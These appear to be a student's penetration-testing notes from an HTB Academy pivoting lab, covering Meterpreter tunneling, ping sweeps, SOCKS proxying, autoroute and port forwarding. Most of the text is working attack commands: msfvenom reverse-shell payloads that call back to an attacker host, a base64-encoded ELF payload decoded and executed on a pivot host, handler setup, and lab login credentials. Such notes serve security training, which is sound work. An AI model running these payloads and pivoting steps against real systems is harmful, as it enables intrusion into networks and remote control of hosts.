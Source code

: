 # Meterpreter Tunneling & Port Forwarding


## ICMP SCAN from Meterpreter

1) Creating Payload for Ubuntu Pivot Host
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080

2) Configuring & Starting the multi/handler
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp
run

3) Executing the Payload on the Pivot Host
vi backupjob
./backupjob

4) Meterpreter Session Establishment
meterpreter > pwd
/home/ubuntu

5) Ping Sweep
-> Try to discover 172.16.5.0/23 Network
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

OR

Linux :
Ping Sweep For Loop directly on Linux Pivot Hosts
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

Windows :
Ping Sweep For Loop Using CMD
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
Powershell :
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}

## TCP SCAN from Meterpreter

1) Configuring MSF's SOCKS Proxy

use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 0.0.0.0
set version 4a
run

2) Confirming Proxy Server is Running
jobs

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy

3) Adding a Line to proxychains.conf if Needed
socks4 	127.0.0.1 9050

4) Creating Routes with AutoRoute
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 172.16.5.0
run

OR

meterpreter > run autoroute -s 172.16.5.0/23
run autoroute -p

5) Testing Proxy & Routing Functionality
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn

## Port Forwarding from Meterpreter

1) Creating Local TCP Relay
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

2) Connecting to Windows Target through localhost
xfreerdp /v:localhost:3300 /u:victor /p:pass@123

Netstat Output
netstat -antp
tcp        0      0 127.0.0.1:54652         127.0.0.1:3300          ESTABLISHED 4075/xfreerdp 

## Reverse Port Forwarding from Meterpreter

1) Reverse Port Forwarding Rules
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

2) Configuring & Starting multi/handler
meterpreter > bg

3) Generating the Windows Payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234

4) Establishing the Meterpreter session
meterpreter > shell
C:\>

## LAB

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.204 -f elf -o backupjob LPORT=8080
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp
run

ssh ubuntu@$TARGET
HTB_@cademy_stdnt!

cat backupjob |base64 -w 0;echo

echo -n 'f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAAMf9qCViZthBIidZNMclqIkFaagdaDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgAfkAoKDsxRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==
' | base64 -d > backupjob

vi backupjob
./backupjob

meterpreter > pwd
/home/ubuntu

meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23



for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
;done
64 bytes from 172.16.5.19: icmp_seq=1 ttl=128 time=0.517 ms
64 bytes from 172.16.5.129: icmp_seq=1 ttl=64 time=0.031 ms

msfconsole
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 172.16.5.0
run

(Meterpreter 1)(/home/ubuntu) > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.5.0         255.255.254.0      Session 1
